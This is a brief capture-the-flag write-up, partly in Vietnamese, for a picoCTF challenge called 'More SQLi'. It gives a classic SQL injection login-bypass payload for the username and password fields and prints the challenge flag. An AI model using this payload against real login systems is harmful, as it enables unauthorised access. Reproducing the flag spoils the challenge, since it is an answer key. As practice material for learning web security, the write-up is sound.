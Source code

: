 # **More SQLi**
## **Challenge**
Can you find the flag on this website.
## **Writeup**
Một bài SQL Injection hết sức cơ bản. Nhét vào Repeater và sử dụng payload cơ bản nhất quả đất:
```
username=' OR TRUE -- -&password=' OR TRUE -- -
```
Flag ở response đang chờ các bạn =))

Flag: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}`

